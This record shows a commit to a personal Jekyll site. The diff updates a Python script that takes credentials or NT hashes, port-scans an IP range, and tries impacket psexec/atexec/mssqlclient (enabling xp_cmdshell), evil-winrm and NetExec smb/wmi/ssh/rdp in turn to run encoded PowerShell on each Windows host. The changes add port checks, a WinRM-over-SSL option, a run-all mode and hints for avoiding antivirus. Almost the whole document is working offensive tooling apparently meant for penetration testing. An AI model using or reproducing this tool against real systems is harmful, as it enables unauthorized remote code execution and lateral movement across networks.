

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from misc_scripts/exec_across_windows.py.md, in a window 1280 px wide and 1400 px high, scrolled down 2894 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
script update

```diff
--- a/misc_scripts/exec_across_windows.py.md
+++ b/misc_scripts/exec_across_windows.py.md
@@ -9,19 +9,24 @@
 import os
 import base64
 import sys
+import shlex
 from concurrent.futures import ThreadPoolExecutor, as_completed
 import threading
 import argparse
 import shutil
+import socket
 
-EXEC_TIMEOUT = 15
+EXEC_TIMEOUT = 20
 RDP_TIMEOUT = 45
 MAX_THREADS = 10
 
 VERBOSE = False
 OUTPUT = False
+RUN_ALL = False
+SKIP_PORTSCAN = False
 
-VALID_TOOLS = ["winrm", "smbexec", "ssh", "mssql", "wmi", "psexec", "atexec", "rdp"]
+VALID_TOOLS = ["winrm", "smbexec", "wmi", "ssh", "mssql", "psexec", "atexec", "rdp"]
+NXC_TOOLS = {"smbexec", "wmi", "ssh", "atexec", "rdp"}
 
 IMPACKET_PREFIX = "impacket-"  # or "" for .py suffix
 NXC_CMD = "nxc"
@@ -40,7 +45,8 @@
             print(colorize(msg))
 
 def oprint(msg):
-    if OUTPUT:
+    # don't want to duplicate output, so check if verbose is enabled
+    if OUTPUT and not VERBOSE:
         with print_lock:
             print(colorize(msg))
 
@@ -159,6 +143,50 @@
             tools.append(normalized)
     return tools
 
+def check_port(ip, port, timeout=1):
+    """Check if a port is open on the given IP."""
+    try:
+        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+        sock.settimeout(timeout)
+        result = sock.connect_ex((ip, port))
+        sock.close()
+        return result == 0
+    except:
+        return False
+
+def scan_ports_for_tools(ip, tool_list):
+    """
+    Scan ports for given tools and return viable tools.
+    For winrm, checks port 5985 for winrm and 5986 for winrm-ssl.
+    Returns tuple of (viable_tools, open_ports)
+    """
+    viable_tools = []
+    open_ports = []
+
+    TOOL_PORTS = {"psexec": 445, "smbexec": 445, "atexec": 445, "wmi": 135, "rdp": 3389, "mssql": 1433, "ssh": 22, "winrm": 5985,"winrm-ssl": 5986}
+
+    tools_to_check = tool_list if tool_list else VALID_TOOLS
+
+    for tool in tools_to_check:
+        # Check both winrm ports
+        if tool == "winrm":
+            if check_port(ip, 5985):
+                viable_tools.append("winrm")
+                if 5985 not in open_ports:
+                    open_ports.append(5985)
+            if check_port(ip, 5986):
+                viable_tools.append("winrm-ssl")
+                if 5986 not in open_ports:
+                    open_ports.append(5986)
+        elif tool in TOOL_PORTS:
+            port = TOOL_PORTS[tool]
+            if check_port(ip, port):
+                viable_tools.append(tool)
+                if port not in open_ports:
+                    open_ports.append(port)
+
+    return viable_tools, open_ports
+
 def build_cmd(tool, user, target, credential, command, show_output=False):
     b64 = base64.b64encode(command.encode("utf-16le")).decode()
     use_hash = is_nthash(credential)
@@ -170,54 +198,69 @@
     # Impacket tools
     if tool == "psexec":
         cmd = impacket_cmd("psexec")
-        return (f"{cmd} -hashes :{hash_val} {user}@{target} 'powershell -enc {b64}'"
+        return (f"{cmd} -hashes :{hash_val} \"{user}\"@{target} 'powershell -enc {b64}'"
                 if use_hash else
-                f"{cmd} {user}:{credential}@{target} 'powershell -enc {b64}'")
+                f"{cmd} \"{user}\":{credential}@{target} 'powershell -enc {b64}'")
 
     if tool == "mssql":
         cmd = impacket_cmd("mssqlclient")
-        return (f"{cmd} -hashes :{hash_val} {user}@{target} -windows-auth -command 'enable_xp_cmdshell' -command 'xp_cmdshell 'powershell -enc {b64}'"
+        return (f"{cmd} -hashes :{hash_val} \"{user}\"@{target} -windows-auth -command 'enable_xp_cmdshell' -command 'xp_cmdshell 'powershell -enc {b64}'"
                 if use_hash else
-                f"{cmd} {user}:{credential}@{target} -windows-auth -command 'enable_xp_cmdshell' -command 'xp_cmdshell powershell -enc {b64}'")
+                f"{cmd} \"{user}\":{credential}@{target} -windows-auth -command 'enable_xp_cmdshell' -command 'xp_cmdshell powershell -enc {b64}'")
 
     if tool == "atexec":
         cmd = impacket_cmd("atexec")
-        return (f"{cmd} -hashes :{hash_val} {user}@{target} 'powershell -enc {b64}'"
+        return (f"{cmd} -hashes :{hash_val} \"{user}\"@{target} 'powershell -enc {b64}'"
                 if use_hash else
-                f"{cmd} {user}:{credential}@{target} 'powershell -enc {b64}'")
+                f"{cmd} \"{user}\":{credential}@{target} 'powershell -enc {b64}'")
 
-    # yes I know nxc has a winrm module which can oneshot commands, but evil-winrm has proved more robust
+    # winrm handling - both regular and SSL variants
+    # yes I know nxc has a winrm module which can oneshot commands, but evil-winrm has proved itself more dependable
     if tool == "winrm":
-        return (f"echo 'powershell -enc {b64}' | {WINRM_CMD} -i {target} -u {user} -H {hash_val}"
+        return (f"echo 'powershell -enc {b64}' | {WINRM_CMD} -i {target} -u \"{user}\" -H {hash_val}"
                 if use_hash else
-                f"echo 'powershell -enc {b64}' | {WINRM_CMD} -i {target} -u {user} -p {credential}")
+                f"echo 'powershell -enc {b64}' | {WINRM_CMD} -i {target} -u \"{user}\" -p {credential}")
+
+    if tool == "winrm-ssl":
+        return (f"echo 'powershell -enc {b64}' | {WINRM_CMD} -i {target} -u \"{user}\" -H {hash_val} --ssl"
+                if use_hash else
+                f"echo 'powershell -enc {b64}' | {WINRM_CMD} -i {target} -u \"{user}\" -p {credential} --ssl")
 
     # NXC tools
     if tool == "smbexec":
-        return (f"{NXC_CMD} smb {target} -H {hash_val} -u {user} -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}"
+        return (f"{NXC_CMD} smb {target} -H {hash_val} -u \"{user}\" -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}"
                 if use_hash else
-                f"{NXC_CMD} smb {target} -p {credential} -u {user} -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}")
+                f"{NXC_CMD} smb {target} -p {credential} -u \"{user}\" -X 'powershell -enc {b64}' --exec-method smbexec{nxc_output_flag}")
 
     if tool == "wmi":
-        return (f"{NXC_CMD} wmi {target} -H {hash_val} -u {user} -x 'powershell -enc {b64}'{nxc_output_flag}"
+        return (f"{NXC_CMD} wmi {target} -H {hash_val} -u \"{user}\" -x 'powershell -enc {b64}'{nxc_output_flag}"
                 if use_hash else
-                f"{NXC_CMD} wmi {target} -p {credential} -u {user} -x 'powershell -enc {b64}'{nxc_output_flag}")
+                f"{NXC_CMD} wmi {target} -p {credential} -u \"{user}\" -x 'powershell -enc {b64}'{nxc_output_flag}")
+
+    if tool == "ssh":
+        return f"{NXC_CMD} ssh {target} -p {credential} -u \"{user}\" -x 'powershell -enc {b64}'{nxc_output_flag}"
 
     if tool == "rdp":
-        return (f"echo 'y' | {NXC_CMD} rdp {target} -u {user} -H {hash_val} -X 'powershell -enc {b64}'{nxc_output_flag}"
+        return (f"{NXC_CMD} rdp {target} -u \"{user}\" -H {hash_val} -X 'powershell -enc {b64}'{nxc_output_flag}"
                 if use_hash else
-                f"echo 'y' | {NXC_CMD} rdp {target} -u {user} -p {credential} -X 'powershell -enc {b64}'{nxc_output_flag}")
-
-    # Misc tools
-    if tool == "ssh":
-        return f"sshpass -p {credential} ssh -o StrictHostKeyChecking=no {user}@{target} 'powershell -enc {b64}'"
+                f"{NXC_CMD} rdp {target} -u \"{user}\" -p {credential} -X 'powershell -enc {b64}'{nxc_output_flag}")
 
     raise Exception(f"Unknown tool: {tool}")
 
 def run_chain(user, ip, credential, command, tool_list=None, show_output=False):
     chain = tool_list if tool_list else VALID_TOOLS
 
+    # test both winrm types
+    expanded_chain = []
     for tool in chain:
+        if tool == "winrm":
+            expanded_chain.extend(["winrm", "winrm-ssl"])
+        elif tool not in expanded_chain:  # Avoid duplicates
+            expanded_chain.append(tool)
+
+
+
+    for tool in expanded_chain:
         # Can't pass the hash with SSH
         if tool == "ssh" and is_nthash(credential):
             safe_print(f"  [-] Skipping SSH for {ip}: cannot pass the hash.")
@@ -228,7 +271,7 @@
             continue
 
         cmd = build_cmd(tool, user, ip, credential, command, show_output)
-        safe_print(f"[i] Trying {tool}: {cmd}")
+        safe_print(f"[*] Trying {tool}: {cmd}")
 
         try:
             timeout = RDP_TIMEOUT if tool == "rdp" else EXEC_TIMEOUT
@@ -250,41 +293,56 @@
             if "Found writable share" in out:
                 if "Stopping service" in out:
                     # psexec succeeded and exited (sometimes with rc 1!)
+                    if RUN_ALL:
+                        # need to run all tools, even if we succeeded
+                        safe_print(f"[+] Success! With command: {cmd}")
+                        oprint(out)
+                        continue
                     return (tool, out, cmd)
                 else:
-                    # if "Stopping service" not detected, defender likely caught binary, so it hangs
-                    safe_print(f"  [-] For {ip}: {tool} auth succeeded, but timed out likely due to defender.")
+                    # if "Stopping service" not detected, AV likely caught binary, so it hangs
+                    safe_print(f"  [-] For {ip}: {tool} auth succeeded, but timed out likely due to AV.")
                     continue
             else:
                 # made it through psexec, but no writeable shares found (will return rc 0)
                 safe_print(f"  [-] For {ip}: {tool} failed.")
                 continue
 
-        # nxc tool quirks
-        if (tool in {"smbexec", "atexec", "wmi"}) and '[-]' in out:
-            safe_print(f"  [-] For {ip}: {tool} failed.")
-            continue
+        if tool == "rdp":
+            if "[-] Clipboard" in out:
+                safe_print(f"  \033[33m[!]\033[0m For {ip}: {tool} succeeded as {user} with {credential}, but failed to initialize clipboard and run command. Try manually using RDP.")
+                continue
+            elif "unrecognized arguments" in out:
+                safe_print(f"  [-] For {ip}: {tool} failed. NetExec is out of date; 'nxc rdp' doesn't support '-X'. Please reinstall netexec to use RDP.")
+                continue
+            elif "[-]" in out:
+                safe_print(f"  [-] For {ip}: {tool} failed.")
+                continue
+
+        if tool in NXC_TOOLS:
+            if '[-]' in out:
+                if "Could not retrieve" in out:
+                    safe_print(f"  \033[33m[!]\033[0m For {ip}: {tool} AUTHENTICATION succeeded as {user} with {credential}, but likely failed to run command. Try running without -o to avoid tripping AV.")
+                # nxc will return 0 if the tool succeeded but auth failed
+                else:
+                    safe_print(f"  [-] For {ip}: {tool} failed.")
+                continue
+            if rc == 0 and out == "":
+                # nxc tools will sometimes just fail silently
+                safe_print(f"  [-] For {ip}: {tool} failed.")
+                continue
 
         if tool == "mssql" and "ERROR" in out:
             safe_print(f"  [-] For {ip}: {tool} failed.")
             continue
 
-        # nxc tools will sometimes just fail silently
-        if (tool == "smbexec" or tool == "rdp" or tool == "wmi") and rc == 0 and out == "":
-            safe_print(f"  [-] For {ip}: {tool} failed.")
-            continue
-
-        if tool == "rdp":
-            if "[-] Clipboard" in out:
-                safe_print(f"  [+] For {ip}: {tool} succeeded as {user} with {credential}, but failed to initialize clipboard and run command. Try manually using RDP.")
-            elif "unrecognized arguments" in out:
-                safe_print(f"  [-] For {ip}: {tool} failed. NetExec is out of date; 'nxc rdp' doesn't support '-X'. Please reinstall netexec to use RDP.")
-            elif "[-]" in out:
-                safe_print(f"  [-] For {ip}: {tool} failed.")
-            continue
-
         # one-shotting using evil-winrm results in a return code of 1
-        if rc == 0 or (tool == "winrm" and rc == 1 and "NoMethodError" in out):
+        if rc == 0 or (tool in ("winrm", "winrm-ssl") and rc == 1 and "NoMethodError" in out):
+            if RUN_ALL:
+                # need to run all tools, even if we succeeded
+                safe_print(f"[+] Success! With command: {cmd}")
+                oprint(out)
+                continue
             return (tool, out, cmd)
 
         safe_print(f"  [-] For {ip}: {tool} failed.")
@@ -292,8 +350,30 @@
     return None
 
 def execute_on_ip(username, ip, credential, command, tool_list=None, show_output=False):
-    safe_print(f"[*] Attempting {username}@{ip}...")
-    result = run_chain(username, ip, credential, command, tool_list, show_output)
+
+    if SKIP_PORTSCAN:
+        safe_print(f"[*] Skipping portscan for {ip} (--skip-portscan enabled)")
+        viable_tools = tool_list if tool_list else VALID_TOOLS
+    else:
+        safe_print(f"[*] Checking applicable tools for {ip} via portscan")
+        viable_tools, open_ports = scan_ports_for_tools(ip, tool_list)
+
+        if VERBOSE:
+            vprint(f"[v] Open ports for {ip}: {sorted(open_ports)}")
+
+        if not viable_tools:
+            safe_print(f"[-] No required ports open for {ip}. Either it's not up, or the target is firewalled. If you want to try anyway, use --skip-portscan.")
+            return (ip, None)
+
+        display_tools = ["winrm" if t == "winrm-ssl" else t for t in viable_tools]
+        display_tools = list(dict.fromkeys(display_tools))
+        safe_print(f"    \033[34m[i]\033[0m Viable tools found for {ip} based on portscan: {', '.join(display_tools)}")
+
+    result = run_chain(username, ip, credential, command, viable_tools, show_output)
+
+    if RUN_ALL:
+        safe_print(f"[*] All tools successfully run for {ip} with {username}.")
+        return (ip, None)
 
     if result is None:
         safe_print(f"[-] All tools failed for {ip} with {username}.")
@@ -302,7 +382,8 @@
     tool, out, cmd = result
     safe_print(f"[+] Success! With command: {cmd}")
     oprint(out)
-    return (ip, tool)
+    if not RUN_ALL:
+        return (ip, tool)
 
 def print_usage():
     msg = f"""
@@ -317,6 +398,8 @@
   --threads <n>        Number of concurrent threads (default: 10)
   --tools <list>       Comma-separated list of tools to try in order
   --timeout <seconds>  Number of seconds to wait on commands before timeout (default: 15)
+  --run-all            Run all tools, often running the desired command multiple times
+  --skip-portscan      Skip port scanning and attempt all tools
 
 Valid tools: {', '.join(VALID_TOOLS)}
   Aliases: evilwinrm, evil-winrm -> winrm
@@ -346,6 +428,8 @@
     parser.add_argument("--threads", metavar="NUM_THREADS", type=int, default=10, help="Number of concurrent threads")
     parser.add_argument("--timeout", metavar="TIMEOUT_SECONDS", type=int, default=15, help="Number of seconds before commands timeout")
     parser.add_argument("--tools", metavar="LIST", help="Comma-separated list of tools to try")
+    parser.add_argument("--run-all", action="store_true", help="Run all tools, often running the desired command multiple times")
+    parser.add_argument("--skip-portscan", action="store_true", help="Skip port scanning and attempt all tools")
     parser.add_argument("-f", "--file", metavar="CRED_FILE", help="Credential file (newline-separated user/password pairs)")
 
     parser.add_argument("ip_range", help="IP range (e.g., 192.168.1.1-254)")
@@ -426,12 +508,17 @@
     OUTPUT = args.o
     MAX_THREADS = args.threads
     EXEC_TIMEOUT = args.timeout
+    RUN_ALL = args.run_all
+    SKIP_PORTSCAN = args.skip_portscan
 
     if args.tools:
         tool_list = parse_tools_list(args.tools)
         print(f"[*] Using tools: {', '.join(tool_list)}")
     else:
         tool_list = None
+
+    if args.skip_portscan:
+        print("\033[33m[!] Port scanning disabled (--skip-portscan). All tools will be attempted.\033[0m")
 
     if args.file:
         credential_list = load_credential_file(args.file)
```
Also changed, not shown: other parts of misc_scripts/exec_across_windows.py.md (+6 -37 lines), misc_scripts/secretsdump-ng.py (+141 -26 lines).
